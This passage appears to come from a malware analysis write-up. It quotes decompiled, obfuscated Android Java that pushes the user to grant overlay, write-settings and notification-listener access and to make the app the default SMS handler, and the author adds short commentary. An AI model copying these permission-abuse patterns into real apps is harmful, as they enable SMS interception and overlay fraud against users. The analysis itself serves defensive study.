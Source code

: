```java
                        } catch (Exception unused) {
                            startActivity(new Intent("android.settings.action.MANAGE_OVERLAY_PERMISSION").addFlags(268435456).addFlags(1073741824).addFlags(8388608));
                        }
                    }
                    finish();
                } else if (string.equals("write_settings")) {
                    if (!cc90dbdde3.m0b0da708ab73be30()) {
                        try {
                            startActivity(new Intent("android.settings.action.MANAGE_WRITE_SETTINGS", Uri.parse(caf5aa5dc1.ma93efdbbced5be26(new byte[]{80, 122, -105, 61, -28, 28, 41, 25, -56, -106, -32, 5, 111, -17, -67, 36}) + getPackageName())).addFlags(268435456).addFlags(1073741824).addFlags(8388608));
                        } catch (Exception unused2) {
                            startActivity(new Intent("android.settings.action.MANAGE_WRITE_SETTINGS").addFlags(268435456).addFlags(1073741824).addFlags(8388608));
                        }
                    }
                    finish();
                } else if (string.equals("notification")) {
                    if (!cc90dbdde3.m6fc4b38bbb639eaf()) {
                        try {
                            startActivity(new Intent("android.settings.ACTION_NOTIFICATION_LISTENER_SETTINGS", Uri.parse(caf5aa5dc1.ma93efdbbced5be26(new byte[]{80, 122, -105, 61, -28, 28, 41, 25, -56, -106, -32, 5, 111, -17, -67, 36}) + getPackageName())).addFlags(268435456).addFlags(1073741824).addFlags(8388608));
                        } catch (Exception unused3) {
                            startActivity(new Intent("android.settings.ACTION_NOTIFICATION_LISTENER_SETTINGS").addFlags(268435456).addFlags(1073741824).addFlags(8388608));
                        }
                    }
                    finish();
[TRUNCATED]
```

Lines 405 - 427 of the same class we can see a new method titled `startRoleManagerSms`. that appears to running a new activity with the `android.provider.Telephony.ACTION_CHANGE_DEFAULT` permission for an overlay on the users device. If you would like to read more about this refer to the android documentation [here](https://developer.android.com/reference/android/provider/Telephony.Sms.Intents#ACTION_CHANGE_DEFAULT). 

> Activity action: Ask the user to change the default SMS application. This will show a dialog that asks the user whether they want to replace the current default SMS application with the one specified in `[EXTRA_PACKAGE_NAME](https://developer.android.com/reference/android/provider/Telephony.Sms.Intents#EXTRA_PACKAGE_NAME)`
> 

```java
[TRUNCATED]
@SuppressLint({"WrongConstant"})
    public final void startRoleManagerSms() {
        try {
            if (Build.VERSION.SDK_INT < 29) {
                if (cc90dbdde3.m33e4fc8ac70cafe7().equals(getPackageName())) {
                    return;
                }
                startActivity(new Intent("android.provider.Telephony.ACTION_CHANGE_DEFAULT").putExtra("package", getPackageName()).addFlags(268435456).addFlags(1073741824));
                return;
            }
[TRUNCATED]
```
